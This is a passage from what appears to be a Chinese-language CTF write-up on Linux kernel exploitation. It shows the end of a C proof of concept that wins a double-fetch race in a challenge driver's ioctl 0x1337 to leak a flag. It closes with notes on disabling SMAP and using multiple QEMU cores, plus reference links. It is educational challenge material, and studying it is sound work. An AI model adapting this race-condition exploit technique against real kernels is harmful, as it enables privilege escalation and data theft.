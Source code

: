 ```c
    id = read(file_addr,buf,200);
    close(file_addr);
    addr = strstr(buf,"Your flag is at ");
    if(addr)
        {
            addr +=16;
            flag_addr = strtoull(addr,addr+16,16);
            printf("[*]The flag_addr is at: %p\n",flag_addr);
        }
    else
    {
            printf("[*]Didn't find the flag_addr!\n");
            return 0;
    }
    pthread_create(&t1,NULL,change_flag_addr,&t);   //Malicious thread
    for(i=0;i<Time;i++){
        ret = ioctl(fd,0x1337,&t);
        t.flag = m;     //In order to pass the first inspection
    }
    finish = 0;
    pthread_join(t1,NULL);
    close(fd);
    printf("[*]The result:\n");
    system("dmesg | grep flag");
    return 0;
}
```

PS:

>1. 配置QEMU启动参数时,不要开启SMAP保护，否则在内核中直接访问用户态数据会引起kernel panic…
>
>2. 配置QEMU启动参数时，需要配置为非单核单线程启动，不然无法触发poc中的竞争条件,具体操作是在启动参数中增加其内核数选项，如:
>
>    ```shell
>    -smp 2,cores=2,threads=1  \
>    ```



>参考资料：
>
>[Linux Kernel Pwn 初探](https://xz.aliyun.com/t/7625)
>
>[祥云杯2020 babydev](http://www.yxfzedu.com/rs_show/702)
>
>[祥云杯2020 babydev详解](https://www.anquanke.com/post/id/223468)
>
>


